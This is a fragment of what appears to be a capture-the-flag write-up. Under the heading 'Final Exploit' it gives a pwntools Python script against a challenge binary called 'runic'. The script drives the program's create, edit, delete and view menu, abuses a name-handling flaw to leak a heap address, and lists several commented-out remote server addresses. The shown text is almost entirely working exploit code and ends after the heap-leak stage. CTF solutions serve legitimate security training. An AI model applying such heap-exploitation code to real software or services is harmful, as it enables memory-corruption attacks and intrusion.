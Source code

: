 # Final Exploit :


``` py 
from pwn import * 

context.terminal = ['terminator','-e']

null_name = '\x01\x00\x01'
# 161.35.168.118:31503
# 104.248.169.117:32003
# 167.71.143.44:32695
#p = remote("167.71.143.44",32695)
p = process("./runic")

gs = """
    b * delete

"""
pid = gdb.attach(p,gdbscript=gs)

def create(name,length,contents):
    p.sendlineafter(b"Action: \n", b'1')
    p.sendafter(b'\n',name)
    p.sendafter(b'\n',length)
    p.sendafter(b'\n',contents)

def edit(name_old,name_new,contents_new):
    p.sendlineafter(b"Action: \n", b'3')
    p.sendafter(b'\n',name_old)
    p.sendafter(b'\n',name_new)
    p.sendafter(b'\n',contents_new)

def delete(name):
    p.sendlineafter(b"Action: \n", b'2')
    p.sendafter(b'\n',name)

def view_(name):
    import time
    time.sleep(3)
    p.sendlineafter(b"Action: \n",b'4')
    p.sendafter(b'\n',name)



def padd(x):
    return x.ljust(8,b'\x00')

#=================LEAK HEAP=================

create(padd(b'\x05'),'15','BBBBBBBB')
create(padd(b'\x0b'),'8','FFFFFFFF')
create(padd(b'\x01'),'50','CCCCCCCC')
# import time
# time.sleep(3)
delete(padd(b'\x0b'))

edit(padd(b'\x05'),padd(b'\x01\x00\x05'),'X'*24)
view_(padd(b'\x06'))

p.recvuntil(b'X'*24)
leak = u64(p.recvline().replace(b'\n',b'').ljust(8,b'\x00')) << 12
print('leak heap',hex(leak))
```
